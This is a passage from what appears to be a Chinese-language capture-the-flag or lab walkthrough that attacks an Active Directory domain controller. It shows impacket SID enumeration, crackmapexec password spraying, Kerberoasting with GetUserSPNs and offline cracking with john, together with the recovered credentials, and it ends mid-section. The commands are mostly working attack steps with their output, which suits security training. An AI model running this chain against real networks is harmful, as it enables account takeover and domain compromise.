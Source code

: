 提取用户名列表：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@192.168.205.131 2>/dev/null | grep "(SidTypeUser)" | cut -d '\' -f2 | cut -d ' ' -f1 > user
```

## 5.2 密码喷洒攻击

使用 `crackmapexec` 进行密码喷洒（用户名作为密码）：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ crackmapexec smb 192.168.205.131 -u user -p user --continue-on-success --no-bruteforce | grep '+'
SMB         192.168.205.131 445    DC01    [+] SOUPEDECODE.LOCAL\ybob317:ybob317
```

成功找到弱密码用户：`ybob317:ybob317`

# 六、Kerberoasting攻击

## 6.1 获取服务票据

使用获得的凭据进行Kerberoasting攻击：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py SOUPEDECODE.LOCAL/ybob317:ybob317 -dc-ip 192.168.205.131 -request
...
$krb5tgs$23$*file_svc$SOUPEDECODE.LOCAL$S...
```

成功获取到服务账户的Kerberos票据。

## 6.2 破解服务账户密码

使用 `john` 破解Kerberos票据：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
...
Password123!!    (?)   
1g 0:00:00:09 DONE (2025-08-30 18:22) 0.1054g/s 1513Kp/s 7184Kc/s 7184KC/s
```

破解出密码：`Password123!!`

## 6.3 密码喷洒验证

使用破解出的密码进行密码喷洒：
